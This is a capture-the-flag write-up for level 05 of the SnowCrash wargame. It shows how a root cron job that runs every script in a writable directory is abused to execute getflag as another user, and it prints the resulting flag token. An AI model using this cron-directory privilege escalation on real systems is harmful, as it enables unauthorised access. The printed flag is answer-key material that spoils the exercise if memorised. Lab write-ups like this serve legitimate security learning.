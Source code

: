 When logging to level 5 we have the message:
`You have a mail.

```
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
By looking at the cron task we can see that every 2minutes the script /usr/sbin/openarenaserver is executed by flag05

We openend the file `openarenaserver` with cat:
```bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

The system executes every script placed into the /opt/openarenaserver directory and then deletes it.
We can't use vim to write a script there because we don't have rights, but can use this behavior to build an exploit.

`echo "getflag > /tmp/getflag" > /opt/openarenaserver/getflag.sh`

and we wait 2mn for the script to execut.
then we just have to do: 
```
flag01@SnowCrash:~$ cat /tmp/getflag
viuaaale9huek52boumoomioc
```